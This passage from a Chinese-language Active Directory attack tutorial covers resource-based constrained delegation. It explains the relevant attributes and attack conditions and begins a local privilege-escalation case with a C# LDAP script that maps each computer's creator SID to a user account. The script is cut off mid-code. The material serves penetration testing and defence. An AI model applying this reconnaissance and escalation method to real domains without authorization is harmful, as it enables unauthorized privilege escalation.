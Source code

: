 2. `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，官方说明：

    > This attribute is used for access checks to determine if a requestor has permission to act on the behalf of other identities to services running as this account.
    > https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtoactonbehalfofotheridentity

    简单来讲，该属性指向委派账户，以决定谁来委派“我”。

3. `ms-DS-MachineAccountQuota` 属性，官方说明：

    > The number of computer accounts that a user is allowed to create in a domain.
    > https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota

    该属性表明一个账户在域内所允许创建的**计算机账户**数，默认为 10，即一个普通的域用户可以创建十个新的计算机帐户。
    因为基于资源的约束委派中需要用到 S4U2Self 和 S4U2Proxy，又因为 S4U2Self只适用于具有 SPN 的账户，恰好的是在域中有一个属性 `MachineAccountQuota`，所以就需要通过 `MachineAccountQuota` 来创建一个 SPN 的账户来进行委派配合，而计算机账户默认是注册 `RestrictedKrbHost/domain` 和 `HOST/domain` 这两个SPN的。

#### 5.3.2 攻击条件

1. 具有对主机修改 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的权限。具有这种权限的情况，具体来讲就是：
    1. `mS-DS-Creator-SID` 所指用户，即将该主机加入域的域用户。
    2. Account Operator 组的成员。
    3. 该主机的机器账户。
2. 可以创建机器账户（或已知机器账户）。一般的域成员都可以创建 `ms-DS-MachineAccountQuota` 属性所指定数量的机器账户。

#### 5.3.3 案例 - 本地主机提权

1. 首先根据攻击条件，先要有修改 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的权限。这里先从 `mS-DS-Creator-SID` 入手，查询域内每台主机的 `mS-DS-Creator-SID`。可以使用脚本（记得修改其中的域名）：
    ```c#
    using System;
    using System.Security.Principal;
    using System.DirectoryServices;
    namespace ConsoleApp9
    {
        class Program
        {
            static void Main(string[] args)
            {
                DirectoryEntry ldap_conn = new DirectoryEntry("LDAP://dc=endlessshw2,dc=com");
                DirectorySearcher search = new DirectorySearcher(ldap_conn);
                String query = "(&(objectClass=computer))"; //查找计算机
                search.Filter = query;
                foreach(SearchResult r in search.FindAll())
                {
                    String mS_DS_CreatorSID = "";
                    String computername = "";
                    try
                    {
                        computername = r.Properties["dNSHostName"][0].ToString();
                        mS_DS_CreatorSID = (new SecurityIdentifier((byte[]) r.Properties["mS-DS-CreatorSID"][0], 0)).ToString();
                        //Console.WriteLine("{0} {1}\n", computername, mS_DS_CreatorSID);
                    }
                    catch
                    {;
                    }
                    //再通过sid找用户名
                    String UserQuery = "(&(objectClass=user))";
                    DirectorySearcher search2 = new DirectorySearcher(ldap_conn);
                    search2.Filter = UserQuery;
                    foreach(SearchResult u in search2.FindAll())
                    {
                        String user_sid = (new SecurityIdentifier((byte[]) u.Properties["objectSid"][0], 0)).ToString();
                        if(user_sid == mS_DS_CreatorSID)